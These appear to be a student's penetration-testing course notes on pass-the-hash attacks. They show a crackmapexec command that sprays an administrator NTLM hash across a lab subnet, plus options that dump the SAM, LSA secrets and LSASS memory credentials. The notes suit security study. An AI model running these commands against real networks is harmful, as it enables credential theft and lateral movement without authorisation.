 Pass Attacks

Monday, October 9, 2023

8:08 PM

 

Run crackmapexec against smb on the entire subnet

 

\*HAD TO BE REINSTALLED 6.1 WITH PIPX\*

 

![](001_Pass_Attacks_000.png){width="6.645833333333333in" height="1.28125in"}

 

![](001_Pass_Attacks_001.png){width="9.916666666666666in" height="5.364583333333333in"}

Machines with Pwn3d! Have valid creds -but still check others out Pwn3d means admin access but green check also means valid creds.

 

-   Pass the hash example code

    -   crackmapexec smb 10.0.2.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b \--local-auth

> ![](001_Pass_Attacks_002.png){width="10.5625in" height="3.4479166666666665in"}
>
> Must be v1 for pass the hash
>
>  
>
> Add \--sam to end to pass the hash around
>
> ![](001_Pass_Attacks_003.png){width="11.0in" height="6.864583333333333in"}
>
> Dumps sam with a successful login
>
>  
>
> \--shares to enumerate shares
>
> ![](001_Pass_Attacks_004.png){width="14.65625in" height="4.3125in"}
>
>  
>
> \--lsa to dump LSA
>
> ![](001_Pass_Attacks_005.png){width="17.40625in" height="6.6875in"}
>
> (What does LSA do in Windows?
>
> The LSA, which includes the Local Security Authority Server Service (LSASS) process, validates users for local and remote sign-ins and enforces local security policies. Starting with Windows 8.1 and later, added protection for the LSA is provided to prevent reading memory and code injection by nonprotected processes.
>
>  

*From \<<https://www.google.com/search?q=windows+lsa&oq=windows+lsa&gs_lcrp=EgZjaHJvbWUyBggAEEUYOTIICAEQABgWGB4yCAgCEAAYFhgeMggIAxAAGBYYHjIICAQQABgWGB4yCAgFEAAYFhgeMggIBhAAGBYYHjIICAcQABgWGB4yCAgIEAAYFhge0gEIMjQ3OWowajGoAgCwAgA&sourceid=chrome&ie=UTF-8>\> )*

>  
>
>  
>
> List Modules crackmapexec smb -L
>
> ![](001_Pass_Attacks_006.png){width="16.65625in" height="7.03125in"}
>
>  
>
>  
>
> Lsassy to see secrets stored in memory -credentials from lsass
>
> ![](001_Pass_Attacks_007.png){width="13.40625in" height="2.2604166666666665in"}
>
>  

-   cmedb -database of everything captured while using crackmap

> Can be output to file

 

> ![](001_Pass_Attacks_008.png){width="15.041666666666666in" height="4.8125in"}
>
>  
